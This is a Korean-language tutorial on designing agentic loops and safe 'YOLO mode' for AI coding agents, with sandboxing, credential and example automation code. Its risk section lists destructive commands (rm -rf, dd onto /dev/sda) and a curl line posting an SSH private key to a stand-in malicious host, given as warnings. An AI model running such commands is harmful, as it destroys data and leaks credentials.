

⏱️ **예상 읽기 시간**: 12분

## 소개

Anthropic의 Claude Code와 OpenAI의 Codex CLI 같은 코딩 에이전트의 등장은 소프트웨어 개발 접근 방식에 혁명적인 변화를 가져왔습니다. 이러한 AI 기반 도구들은 코드를 작성하고, 실행하며, 오류를 디버깅하고, 자율적으로 솔루션을 향해 반복 작업을 수행할 수 있습니다. 하지만 이들의 잠재력을 완전히 활용하려면 중요한 새로운 기술을 마스터해야 합니다: **에이전틱 루프 설계**.

이 종합 튜토리얼은 AI 코딩 에이전트의 생산성과 안전성을 극대화하는 효과적인 에이전틱 루프를 만들기 위한 원칙, 실습, 구현 전략을 안내합니다.

## 에이전틱 루프란 무엇인가?

**에이전틱 루프**는 AI 에이전트가 특정 목표를 달성하기 위해 도구를 반복적으로 실행하는 구조화된 프로세스입니다. 에이전트가 다음과 같은 피드백 시스템으로 생각해볼 수 있습니다:

1. **분석**: 현재 상태 분석
2. **실행**: 사용 가능한 도구를 사용하여 작업 실행
3. **평가**: 결과 평가
4. **반복**: 피드백을 기반으로 반복
5. **지속**: 목표 달성까지 계속

### 핵심 구성 요소



에이전틱 루프의 효과는 세 가지 핵심 요소에 달려 있습니다:
- **명확한 목표 정의**
- **적절한 도구 선택**
- **견고한 피드백 메커니즘**

## YOLO 모드 이해하기

### 자동화의 힘과 위험

YOLO(You Only Live Once) 모드는 승인 프롬프트 없이 명령이 자동으로 실행되는 최소한의 인간 개입으로 에이전트를 실행하는 것을 의미합니다. 이는 생산성을 극적으로 증가시키지만 상당한 위험도 도입합니다.

### 위험 평가

#### 1. 시스템 손상 위험
```bash
# 손상을 일으킬 수 있는 위험한 명령들
rm -rf /important-directory
sudo chmod -R 777 /
dd if=/dev/zero of=/dev/sda
```

#### 2. 데이터 유출 위험
```bash
# 민감한 데이터를 유출할 수 있는 명령들
curl -X POST https://malicious-site.com -d "$(cat ~/.ssh/id_rsa)"
env | grep -E "(API_KEY|PASSWORD|SECRET)" > /tmp/secrets.txt
```

#### 3. 네트워크 공격 위험
```bash
# 공격에 머신을 사용할 수 있는 명령들
nmap -sS target-network.com
curl -X POST flood-target.com --data-binary @large-file.bin
```

### 안전한 YOLO 구현 전략

#### 옵션 1: 컨테이너화된 샌드박싱

안전한 Docker 환경 생성:

```dockerfile
# 에이전트 샌드박스용 Dockerfile
FROM ubuntu:22.04

# 필요한 도구 설치
RUN apt-get update && apt-get install -y \
    python3 \
    python3-pip \
    nodejs \
    npm \
    git \
    curl \
    && rm -rf /var/lib/apt/lists/*

# 비루트 사용자 생성
RUN useradd -m -s /bin/bash agent
USER agent
WORKDIR /home/agent

# 네트워크 액세스 제한 (선택사항)
# RUN echo "127.0.0.1 localhost" > /etc/hosts
```

제한된 컨테이너 실행:
```bash
# 보안 컨테이너 실행
docker run -it \
  --network none \
  --memory="2g" \
  --cpus="1.0" \
  --read-only \
  --tmpfs /tmp \
  agent-sandbox:latest
```

#### 옵션 2: 클라우드 기반 환경

**GitHub Codespaces 설정:**

```yaml
# .devcontainer/devcontainer.json
{
  "name": "Agent Sandbox",
  "image": "mcr.microsoft.com/devcontainers/universal:2",
  "features": {
    "ghcr.io/devcontainers/features/docker-in-docker:2": {}
  },
  "customizations": {
    "vscode": {
      "extensions": [
        "ms-python.python",
        "ms-vscode.vscode-json"
      ]
    }
  },
  "postCreateCommand": "pip install -r requirements.txt"
}
```

#### 옵션 3: 네트워크 제한 환경

아웃바운드 연결을 제한하는 방화벽 규칙 구성:

```bash
# 특정 도메인만 허용
sudo ufw default deny outgoing
sudo ufw allow out to pypi.org
sudo ufw allow out to npmjs.com
sudo ufw allow out to github.com
sudo ufw enable
```

## 도구 선택 및 구성

### 필수 도구 카테고리

#### 1. 개발 도구
```bash
# 패키지 매니저
pip install package-name
npm install package-name
cargo install package-name

# 빌드 도구
make build
cmake --build .
gradle build

# 버전 관리
git clone repository-url
git commit -m "message"
git push origin branch
```

#### 2. 테스팅 및 검증 도구
```bash
# 단위 테스트
pytest tests/
npm test
cargo test

# 린팅 및 포매팅
pylint src/
eslint src/
rustfmt src/

# 보안 스캔
bandit -r src/
npm audit
cargo audit
```

#### 3. 배포 및 인프라 도구
```bash
# 컨테이너화
docker build -t app:latest .
docker run -p 8080:8080 app:latest

# 클라우드 배포
kubectl apply -f deployment.yaml
terraform apply
aws s3 sync ./build s3://bucket-name
```

### 도구 문서화 생성

AI 에이전트를 안내하기 위한 `AGENTS.md` 파일 생성:

```markdown
# 에이전트 도구 문서

## 스크린샷 도구
웹사이트 스크린샷 촬영:
```bash
shot-scraper https://example.com -w 1200 -h 800 -o screenshot.png
```

## 데이터베이스 작업
데이터베이스 마이그레이션 실행:
```bash
python manage.py migrate
```

백업 생성:
```bash
pg_dump database_name > backup.sql
```

## API 테스팅
API 엔드포인트 테스트:
```bash
curl -X POST https://api.example.com/endpoint \
  -H "Content-Type: application/json" \
  -d '{"key": "value"}'
```
```

### 고급 도구 통합

#### 커스텀 셸 함수

```bash
# ~/.bashrc에 에이전트용 추가 사항
agent_deploy() {
    echo "$1 환경에 배포 중..."
    if [ "$1" = "staging" ]; then
        docker build -t app:staging .
        docker push registry.com/app:staging
        kubectl set image deployment/app app=registry.com/app:staging
    fi
}

agent_test() {
    echo "종합 테스트 실행 중..."
    pytest --cov=src tests/
    npm run test:e2e
    docker run --rm -v $(pwd):/app security-scanner
}
```

## 자격 증명 관리 및 보안

### 최소 권한 원칙

#### 환경별 자격 증명

```bash
# 개발 환경 변수
export API_URL="https://api-dev.example.com"
export DB_HOST="dev-db.example.com"
export BUDGET_LIMIT="5.00"

# 스테이징 환경
export API_URL="https://api-staging.example.com"
export DB_HOST="staging-db.example.com"
export BUDGET_LIMIT="50.00"
```

#### 범위가 지정된 API 키

최소 권한으로 전용 서비스 계정 생성:

```yaml
# 에이전트용 AWS IAM 정책
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "s3:GetObject",
        "s3:PutObject"
      ],
      "Resource": "arn:aws:s3:::agent-sandbox/*"
    },
    {
      "Effect": "Allow",
      "Action": [
        "lambda:InvokeFunction"
      ],
      "Resource": "arn:aws:lambda:*:*:function:agent-*"
    }
  ]
}
```

#### 예산 제어

```python
# 예산 모니터링 스크립트
import boto3
import os

def check_budget():
    client = boto3.client('budgets')
    budget_name = os.environ.get('BUDGET_NAME', 'agent-budget')
    
    response = client.describe_budget(
        AccountId=os.environ['AWS_ACCOUNT_ID'],
        BudgetName=budget_name
    )
    
    actual_spend = response['Budget']['CalculatedSpend']['ActualSpend']['Amount']
    budget_limit = response['Budget']['BudgetLimit']['Amount']
    
    if float(actual_spend) > float(budget_limit) * 0.8:
        raise Exception(f"예산 한도 근접: ${actual_spend}/${budget_limit}")

# 비용이 많이 드는 작업 전에 실행
check_budget()
```

## 실제 구현 예제

### 예제 1: 자동화된 테스팅 파이프라인

```python
# test_automation_agent.py
import subprocess
import json
import time

class TestAutomationAgent:
    def __init__(self, project_path):
        self.project_path = project_path
        self.results = []
    
    def run_unit_tests(self):
        """단위 테스트 실행 및 결과 캡처"""
        try:
            result = subprocess.run(
                ['pytest', '--json-report', '--json-report-file=test_results.json'],
                cwd=self.project_path,
                capture_output=True,
                text=True,
                timeout=300
            )
            
            with open(f"{self.project_path}/test_results.json", 'r') as f:
                test_data = json.load(f)
            
            self.results.append({
                'type': 'unit_tests',
                'passed': test_data['summary']['passed'],
                'failed': test_data['summary']['failed'],
                'duration': test_data['summary']['duration']
            })
            
            return result.returncode == 0
        except subprocess.TimeoutExpired:
            self.results.append({
                'type': 'unit_tests',
                'error': 'timeout',
                'duration': 300
            })
            return False
    
    def run_integration_tests(self):
        """통합 테스트 실행"""
        try:
            result = subprocess.run(
                ['npm', 'run', 'test:integration'],
                cwd=self.project_path,
                capture_output=True,
                text=True,
                timeout=600
            )
            
            self.results.append({
                'type': 'integration_tests',
                'success': result.returncode == 0,
                'output': result.stdout[-500:]  # 마지막 500자
            })
            
            return result.returncode == 0
        except subprocess.TimeoutExpired:
            return False
    
    def optimize_failing_tests(self):
        """실패한 테스트 분석 및 수정 시도"""
        if not self.results:
            return False
        
        failed_tests = [r for r in self.results if not r.get('success', True)]
        
        for test in failed_tests:
            if test['type'] == 'unit_tests':
                self.fix_unit_test_issues()
            elif test['type'] == 'integration_tests':
                self.fix_integration_issues()
        
        return True
    
    def fix_unit_test_issues(self):
        """일반적인 단위 테스트 문제 수정 시도"""
        # 먼저 린팅 실행
        subprocess.run(['pylint', '--fix', 'src/'], cwd=self.project_path)
        
        # 의존성 업데이트
        subprocess.run(['pip', 'install', '--upgrade', '-r', 'requirements.txt'], 
                      cwd=self.project_path)
    
    def fix_integration_issues(self):
        """통합 테스트 문제 수정 시도"""
        # 서비스 재시작
        subprocess.run(['docker-compose', 'restart'], cwd=self.project_path)
        time.sleep(10)  # 서비스 시작 대기
    
    def generate_report(self):
        """종합 테스트 보고서 생성"""
        report = {
            'timestamp': time.time(),
            'results': self.results,
            'summary': {
                'total_tests': len(self.results),
                'passed': len([r for r in self.results if r.get('success', True)]),
                'failed': len([r for r in self.results if not r.get('success', True)])
            }
        }
        
        with open(f"{self.project_path}/agent_test_report.json", 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# 사용 예제
if __name__ == "__main__":
    agent = TestAutomationAgent("/path/to/project")
    
    # 에이전틱 루프 실행
    max_iterations = 3
    iteration = 0
    
    while iteration < max_iterations:
        print(f"반복 {iteration + 1}")
        
        unit_success = agent.run_unit_tests()
        integration_success = agent.run_integration_tests()
        
        if unit_success and integration_success:
            print("모든 테스트 통과!")
            break
        
        print("테스트 실패, 수정 시도 중...")
        agent.optimize_failing_tests()
        iteration += 1
    
    # 최종 보고서 생성
    report = agent.generate_report()
    print(f"최종 보고서: {report['summary']}")
```

### 예제 2: 성능 최적화 루프

```python
# performance_optimization_agent.py
import subprocess
import time
import json
import statistics

class PerformanceOptimizationAgent:
    def __init__(self, app_url, optimization_targets):
        self.app_url = app_url
        self.targets = optimization_targets
        self.baseline_metrics = None
        self.optimization_history = []
    
    def measure_performance(self):
        """현재 애플리케이션 성능 측정"""
        metrics = {}
        
        # 로드 시간 측정
        load_times = []
        for _ in range(5):  # 5번 측정
            start_time = time.time()
            result = subprocess.run([
                'curl', '-w', '%{time_total}', '-o', '/dev/null', '-s', self.app_url
            ], capture_output=True, text=True)
            
            if result.returncode == 0:
                load_times.append(float(result.stdout.strip()))
            time.sleep(1)
        
        if load_times:
            metrics['avg_load_time'] = statistics.mean(load_times)
            metrics['min_load_time'] = min(load_times)
            metrics['max_load_time'] = max(load_times)
        
        # 메모리 사용량 (로컬 실행 시)
        try:
            result = subprocess.run([
                'docker', 'stats', '--no-stream', '--format', 
                'table {{.Container}}\t{{.MemUsage}}'
            ], capture_output=True, text=True)
            
            if result.returncode == 0:
                lines = result.stdout.strip().split('\n')[1:]  # 헤더 제외
                for line in lines:
                    if 'app' in line.lower():
                        mem_usage = line.split('\t')[1].split('/')[0].strip()
                        metrics['memory_usage'] = mem_usage
                        break
        except:
            pass
        
        return metrics
    
    def apply_optimization(self, optimization_type):
        """특정 최적화 기법 적용"""
        success = False
        
        if optimization_type == 'enable_gzip':
            # gzip 압축 활성화
            config_update = """
location / {
    gzip on;
    gzip_types text/plain text/css application/json application/javascript;
    try_files $uri $uri/ =404;
}
"""
            success = self.update_nginx_config(config_update)
        
        elif optimization_type == 'add_caching':
            # 브라우저 캐싱 헤더 추가
            config_update = """
location ~* \.(js|css|png|jpg|jpeg|gif|ico|svg)$ {
    expires 1y;
    add_header Cache-Control "public, immutable";
}
"""
            success = self.update_nginx_config(config_update)
        
        elif optimization_type == 'optimize_images':
            # 이미지 최적화
            result = subprocess.run([
                'find', '.', '-name', '*.jpg', '-exec', 
                'jpegoptim', '--max=85', '{}', ';'
            ], capture_output=True)
            success = result.returncode == 0
        
        elif optimization_type == 'minify_assets':
            # CSS와 JS 압축
            result = subprocess.run(['npm', 'run', 'build:prod'], 
                                  capture_output=True)
            success = result.returncode == 0
        
        # 변경 후 애플리케이션 재시작
        if success:
            subprocess.run(['docker-compose', 'restart', 'app'])
            time.sleep(10)  # 재시작 대기
        
        return success
    
    def update_nginx_config(self, config_snippet):
        """nginx 구성 업데이트"""
        try:
            # 현재 구성 읽기
            with open('nginx.conf', 'r') as f:
                current_config = f.read()
            
            # 새 구성 추가
            updated_config = current_config.replace(
                'location / {',
                f'location / {{\n{config_snippet}'
            )
            
            # 업데이트된 구성 작성
            with open('nginx.conf', 'w') as f:
                f.write(updated_config)
            
            return True
        except Exception as e:
            print(f"nginx 구성 업데이트 실패: {e}")
            return False
    
    def evaluate_improvement(self, before_metrics, after_metrics):
        """최적화가 성능을 개선했는지 평가"""
        improvements = {}
        
        for metric in before_metrics:
            if metric in after_metrics:
                before_val = before_metrics[metric]
                after_val = after_metrics[metric]
                
                if isinstance(before_val, (int, float)) and isinstance(after_val, (int, float)):
                    improvement = ((before_val - after_val) / before_val) * 100
                    improvements[metric] = improvement
        
        return improvements
    
    def run_optimization_loop(self):
        """메인 최적화 루프"""
        print("성능 최적화 시작...")
        
        # 기준선 설정
        self.baseline_metrics = self.measure_performance()
        print(f"기준선 메트릭: {self.baseline_metrics}")
        
        optimizations = [
            'enable_gzip',
            'add_caching', 
            'optimize_images',
            'minify_assets'
        ]
        
        for optimization in optimizations:
            print(f"\n최적화 적용 중: {optimization}")
            
            # 적용 전 측정
            before_metrics = self.measure_performance()
            
            # 최적화 적용
            if self.apply_optimization(optimization):
                # 변경 사항이 적용될 때까지 대기
                time.sleep(5)
                
                # 적용 후 측정
                after_metrics = self.measure_performance()
                
                # 개선 평가
                improvements = self.evaluate_improvement(before_metrics, after_metrics)
                
                optimization_result = {
                    'optimization': optimization,
                    'before_metrics': before_metrics,
                    'after_metrics': after_metrics,
                    'improvements': improvements,
                    'timestamp': time.time()
                }
                
                self.optimization_history.append(optimization_result)
                
                print(f"결과: {improvements}")
                
                # 목표 달성 확인
                if self.check_targets_met(after_metrics):
                    print("성능 목표 달성!")
                    break
            else:
                print(f"최적화 적용 실패: {optimization}")
        
        return self.generate_optimization_report()
    
    def check_targets_met(self, current_metrics):
        """성능 목표 달성 여부 확인"""
        for target_metric, target_value in self.targets.items():
            if target_metric in current_metrics:
                if current_metrics[target_metric] > target_value:
                    return False
        return True
    
    def generate_optimization_report(self):
        """종합 최적화 보고서 생성"""
        report = {
            'baseline_metrics': self.baseline_metrics,
            'optimization_history': self.optimization_history,
            'final_metrics': self.measure_performance(),
            'targets': self.targets,
            'targets_met': self.check_targets_met(self.measure_performance()),
            'timestamp': time.time()
        }
        
        with open('performance_optimization_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# 사용 예제
if __name__ == "__main__":
    targets = {
        'avg_load_time': 2.0,  # 목표: 2초 미만
        'max_load_time': 3.0   # 목표: 최대 3초
    }
    
    agent = PerformanceOptimizationAgent('http://localhost:8080', targets)
    report = agent.run_optimization_loop()
    
    print(f"\n최적화 완료!")
    print(f"목표 달성: {report['targets_met']}")
    print(f"최종 메트릭: {report['final_metrics']}")
```

## 에이전틱 루프 사용 시기

### 이상적인 시나리오

#### 1. 복잡한 문제 디버깅
```python
# 디버깅 에이전트 예제
class DebuggingAgent:
    def __init__(self, failing_test):
        self.failing_test = failing_test
        self.investigation_steps = []
    
    def investigate_failure(self):
        # 상세 모드로 테스트 실행
        self.run_verbose_test()
        
        # 로그 확인
        self.analyze_logs()
        
        # 의존성 검사
        self.check_dependencies()
        
        # 잠재적 수정 시도
        self.attempt_fixes()
    
    def run_verbose_test(self):
        result = subprocess.run([
            'pytest', '-v', '-s', '--tb=long', self.failing_test
        ], capture_output=True, text=True)
        
        self.investigation_steps.append({
            'step': 'verbose_test',
            'output': result.stdout,
            'errors': result.stderr
        })
    
    def analyze_logs(self):
        # 애플리케이션 로그 확인
        log_files = ['app.log', 'error.log', 'debug.log']
        for log_file in log_files:
            if os.path.exists(log_file):
                with open(log_file, 'r') as f:
                    recent_logs = f.readlines()[-100:]  # 마지막 100줄
                
                self.investigation_steps.append({
                    'step': f'analyze_{log_file}',
                    'content': recent_logs
                })
```

#### 2. 의존성 관리
```bash
#!/bin/bash
# dependency_upgrade_agent.sh

echo "의존성 업그레이드 프로세스 시작..."

# 현재 버전 확인
pip list --outdated > outdated_packages.txt

# 패키지를 하나씩 업그레이드
while IFS= read -r line; do
    package=$(echo $line | awk '{print $1}')
    
    if [ "$package" != "Package" ] && [ "$package" != "---" ]; then
        echo "$package 업그레이드 중..."
        
        # requirements 백업 생성
        cp requirements.txt requirements.txt.backup
        
        # 패키지 업그레이드
        pip install --upgrade $package
        
        # 테스트 실행
        if pytest tests/ --maxfail=1; then
            echo "$package 업그레이드 성공"
            pip freeze | grep $package >> requirements.txt.new
        else
            echo "$package 업그레이드 실패, 롤백"
            pip install -r requirements.txt.backup
        fi
    fi
done < outdated_packages.txt
```

#### 3. 컨테이너 최적화
```python
# container_optimization_agent.py
import docker
import subprocess
import json

class ContainerOptimizationAgent:
    def __init__(self, image_name):
        self.image_name = image_name
        self.client = docker.from_env()
        self.optimization_attempts = []
    
    def measure_image_size(self, tag):
        """Docker 이미지 크기 측정"""
        try:
            image = self.client.images.get(f"{self.image_name}:{tag}")
            return image.attrs['Size']
        except:
            return None
    
    def try_base_image_optimization(self):
        """다양한 베이스 이미지 시도"""
        base_images = [
            'python:3.11-slim',
            'python:3.11-alpine',
            'python:3.11-slim-bullseye'
        ]
        
        results = []
        
        for base_image in base_images:
            # 최적화된 Dockerfile 생성
            dockerfile_content = f"""
FROM {base_image}

WORKDIR /app

# 더 나은 캐싱을 위해 requirements 먼저 복사
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

# 애플리케이션 코드 복사
COPY . .

# 비루트 사용자 생성
RUN adduser --disabled-password --gecos '' appuser
USER appuser

EXPOSE 8000
CMD ["python", "app.py"]
"""
            
            # Dockerfile 작성
            with open('Dockerfile.optimized', 'w') as f:
                f.write(dockerfile_content)
            
            # 이미지 빌드
            tag = f"optimized-{base_image.replace(':', '-').replace('/', '-')}"
            build_result = subprocess.run([
                'docker', 'build', '-f', 'Dockerfile.optimized', 
                '-t', f"{self.image_name}:{tag}", '.'
            ], capture_output=True, text=True)
            
            if build_result.returncode == 0:
                size = self.measure_image_size(tag)
                results.append({
                    'base_image': base_image,
                    'tag': tag,
                    'size': size,
                    'size_mb': size / (1024 * 1024) if size else None
                })
        
        return results
    
    def optimize_layers(self):
        """Docker 레이어 최적화"""
        optimized_dockerfile = """
FROM python:3.11-slim

# 레이어를 줄이기 위해 RUN 명령 결합
RUN apt-get update && apt-get install -y \\
    gcc \\
    && rm -rf /var/lib/apt/lists/* \\
    && pip install --no-cache-dir --upgrade pip

WORKDIR /app

# 의존성 복사 및 설치
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt \\
    && pip cache purge

# 애플리케이션 코드 복사
COPY . .

# 한 레이어에서 사용자 생성 및 권한 설정
RUN adduser --disabled-password --gecos '' appuser \\
    && chown -R appuser:appuser /app

USER appuser
EXPOSE 8000
CMD ["python", "app.py"]
"""
        
        with open('Dockerfile.layered', 'w') as f:
            f.write(optimized_dockerfile)
        
        # 최적화된 이미지 빌드
        result = subprocess.run([
            'docker', 'build', '-f', 'Dockerfile.layered',
            '-t', f"{self.image_name}:layered", '.'
        ], capture_output=True, text=True)
        
        return result.returncode == 0
    
    def run_optimization_loop(self):
        """메인 최적화 루프"""
        # 원본 크기 측정
        original_size = self.measure_image_size('latest')
        
        print(f"원본 이미지 크기: {original_size / (1024*1024):.2f} MB")
        
        # 베이스 이미지 최적화 시도
        base_results = self.try_base_image_optimization()
        
        # 최적 베이스 이미지 찾기
        if base_results:
            best_base = min(base_results, key=lambda x: x['size'] or float('inf'))
            print(f"최적 베이스 이미지: {best_base['base_image']} "
                  f"({best_base['size_mb']:.2f} MB)")
        
        # 레이어 최적화 시도
        if self.optimize_layers():
            layered_size = self.measure_image_size('layered')
            print(f"레이어 최적화 크기: {layered_size / (1024*1024):.2f} MB")
        
        # 보고서 생성
        return self.generate_report(original_size, base_results)
    
    def generate_report(self, original_size, base_results):
        """최적화 보고서 생성"""
        report = {
            'original_size_mb': original_size / (1024*1024),
            'base_image_results': base_results,
            'best_optimization': min(base_results, key=lambda x: x['size'] or float('inf')),
            'size_reduction_percent': 0
        }
        
        if base_results:
            best_size = report['best_optimization']['size']
            report['size_reduction_percent'] = (
                (original_size - best_size) / original_size * 100
            )
        
        with open('container_optimization_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# 사용법
if __name__ == "__main__":
    agent = ContainerOptimizationAgent('my-app')
    report = agent.run_optimization_loop()
    print(f"크기 감소: {report['size_reduction_percent']:.1f}%")
```

## 모범 사례 및 가이드라인

### 1. 간단하게 시작하고 복잡하게 반복

```python
# 간단한 에이전틱 루프 템플릿
class SimpleAgenticLoop:
    def __init__(self, goal, tools, max_iterations=10):
        self.goal = goal
        self.tools = tools
        self.max_iterations = max_iterations
        self.iteration_count = 0
        self.history = []
    
    def evaluate_progress(self):
        """성공 기준을 정의하기 위해 이 메서드를 오버라이드"""
        raise NotImplementedError
    
    def select_next_action(self):
        """작업 선택 로직을 정의하기 위해 이 메서드를 오버라이드"""
        raise NotImplementedError
    
    def execute_action(self, action):
        """작업 실행을 정의하기 위해 이 메서드를 오버라이드"""
        raise NotImplementedError
    
    def run(self):
        """메인 루프 실행"""
        while self.iteration_count < self.max_iterations:
            # 목표 달성 확인
            if self.evaluate_progress():
                return True
            
            # 다음 작업 선택 및 실행
            action = self.select_next_action()
            result = self.execute_action(action)
            
            # 히스토리 기록
            self.history.append({
                'iteration': self.iteration_count,
                'action': action,
                'result': result,
                'timestamp': time.time()
            })
            
            self.iteration_count += 1
        
        return False  # 최대 반복 횟수 도달
```

### 2. 견고한 오류 처리 구현

```python
import traceback
import logging

class RobustAgenticLoop(SimpleAgenticLoop):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.logger = logging.getLogger(__name__)
        self.error_count = 0
        self.max_errors = 3
    
    def execute_action_safely(self, action):
        """오류 처리가 포함된 작업 실행"""
        try:
            return self.execute_action(action)
        except Exception as e:
            self.error_count += 1
            self.logger.error(f"작업 실패: {action}, 오류: {str(e)}")
            self.logger.error(f"트레이스백: {traceback.format_exc()}")
            
            if self.error_count >= self.max_errors:
                raise Exception(f"너무 많은 오류 ({self.max_errors}), 루프 중단")
            
            return {'error': str(e), 'action': action}
    
    def run(self):
        """오류 처리가 강화된 실행"""
        try:
            return super().run()
        except Exception as e:
            self.logger.error(f"루프 실패: {str(e)}")
            return False
```

### 3. 리소스 사용량 모니터링

```python
import psutil
import time

class ResourceMonitoredLoop(RobustAgenticLoop):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.max_memory_mb = kwargs.get('max_memory_mb', 1000)
        self.max_cpu_percent = kwargs.get('max_cpu_percent', 80)
    
    def check_resources(self):
        """시스템 리소스 모니터링"""
        memory_usage = psutil.virtual_memory().used / (1024 * 1024)  # MB
        cpu_usage = psutil.cpu_percent(interval=1)
        
        if memory_usage > self.max_memory_mb:
            raise Exception(f"메모리 사용량 과다: {memory_usage:.1f}MB")
        
        if cpu_usage > self.max_cpu_percent:
            self.logger.warning(f"높은 CPU 사용량: {cpu_usage:.1f}%")
            time.sleep(2)  # 부하 줄이기 위한 잠시 일시정지
    
    def execute_action_safely(self, action):
        """리소스 모니터링이 포함된 실행"""
        self.check_resources()
        return super().execute_action_safely(action)
```

## 고급 패턴 및 기법

### 1. 멀티 에이전트 조정

```python
class MultiAgentCoordinator:
    def __init__(self, agents):
        self.agents = agents
        self.shared_state = {}
        self.coordination_history = []
    
    def coordinate_agents(self, task):
        """복잡한 작업에서 여러 에이전트 조정"""
        # 작업을 하위 작업으로 분해
        subtasks = self.decompose_task(task)
        
        # 에이전트에 하위 작업 할당
        assignments = self.assign_subtasks(subtasks)
        
        # 병렬 또는 순차적으로 할당 실행
        results = self.execute_assignments(assignments)
        
        # 결과 병합
        final_result = self.merge_results(results)
        
        return final_result
    
    def decompose_task(self, task):
        """복잡한 작업을 관리 가능한 하위 작업으로 분해"""
        if task['type'] == 'full_stack_development':
            return [
                {'type': 'backend_api', 'priority': 1},
                {'type': 'database_schema', 'priority': 1},
                {'type': 'frontend_ui', 'priority': 2},
                {'type': 'integration_tests', 'priority': 3}
            ]
        return [task]
    
    def assign_subtasks(self, subtasks):
        """적절한 에이전트에 하위 작업 할당"""
        assignments = []
        
        for subtask in subtasks:
            best_agent = self.find_best_agent(subtask)
            assignments.append({
                'agent': best_agent,
                'subtask': subtask
            })
        
        return assignments
    
    def find_best_agent(self, subtask):
        """하위 작업에 가장 적합한 에이전트 찾기"""
        for agent in self.agents:
            if subtask['type'] in agent.capabilities:
                return agent
        
        # 범용 에이전트로 폴백
        return self.agents[0]
```

### 2. 학습 및 적응

```python
class LearningAgenticLoop(ResourceMonitoredLoop):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.success_patterns = {}
        self.failure_patterns = {}
    
    def learn_from_history(self):
        """히스토리를 분석하여 향후 결정 개선"""
        for entry in self.history:
            action_type = entry['action']['type']
            was_successful = entry['result'].get('success', False)
            
            if was_successful:
                if action_type not in self.success_patterns:
                    self.success_patterns[action_type] = []
                self.success_patterns[action_type].append(entry)
            else:
                if action_type not in self.failure_patterns:
                    self.failure_patterns[action_type] = []
                self.failure_patterns[action_type].append(entry)
    
    def select_next_action(self):
        """학습을 기반으로 한 향상된 작업 선택"""
        # 과거 반복에서 학습
        self.learn_from_history()
        
        # 기본 작업 선택 가져오기
        base_action = super().select_next_action()
        
        # 학습된 패턴을 기반으로 수정
        action_type = base_action['type']
        
        if action_type in self.failure_patterns:
            # 이 작업 유형이 이전에 실패했으므로 대안 시도
            alternatives = self.get_alternative_actions(action_type)
            if alternatives:
                return alternatives[0]
        
        return base_action
    
    def get_alternative_actions(self, failed_action_type):
        """기본 접근법이 실패할 때 대안 작업 가져오기"""
        alternatives_map = {
            'direct_fix': ['gradual_fix', 'rollback_and_retry'],
            'full_rebuild': ['incremental_build', 'cached_build'],
            'automated_test': ['manual_verification', 'staged_testing']
        }
        
        return alternatives_map.get(failed_action_type, [])
```

## 결론

효과적인 에이전틱 루프 설계는 AI 코딩 에이전트의 잠재력을 극대화하는 데 중요한 기술입니다. 이 튜토리얼에서 설명한 원칙과 실습을 따르면 개발 프로세스를 크게 향상시키는 견고하고 안전하며 생산적인 자동화 워크플로를 만들 수 있습니다.

### 핵심 요점

1. **안전 우선**: YOLO 모드를 활성화하기 전에 항상 적절한 샌드박싱과 보안 조치를 구현하세요
2. **명확한 목표**: 에이전틱 루프에 대한 구체적이고 측정 가능한 성공 기준을 정의하세요
3. **도구 선택**: 올바른 도구를 선택하고 에이전트를 위한 명확한 문서를 제공하세요
4. **반복적 개선**: 간단하게 시작하여 경험을 쌓으면서 점진적으로 복잡성을 추가하세요
5. **모니터링 및 학습**: 시간이 지남에 따라 개선하기 위한 로깅, 모니터링, 학습 메커니즘을 구현하세요

### 다음 단계

1. **연습**: 안전한 환경에서 간단한 자동화 작업부터 시작하세요
2. **실험**: 다양한 도구 조합과 루프 설계를 시도해보세요
3. **공유**: 경험을 문서화하고 커뮤니티와 학습 내용을 공유하세요
4. **확장**: 점진적으로 더 복잡하고 가치 있는 작업에 에이전틱 루프를 적용하세요

에이전틱 루프 설계 분야는 여전히 새로운 영역이며, 새로운 패턴과 기법을 개척할 엄청난 기회가 있습니다. 이러한 기본 사항을 마스터함으로써 개발 워크플로에서 AI 코딩 에이전트의 모든 힘을 활용할 수 있는 좋은 위치에 서게 될 것입니다.

---

*이 튜토리얼은 Simon Willison의 "[Designing agentic loops](https://simonwillison.net/2025/Sep/30/designing-agentic-loops/)" 글의 통찰을 바탕으로 하며 실제 구현 예제와 모범 사례로 확장되었습니다.*
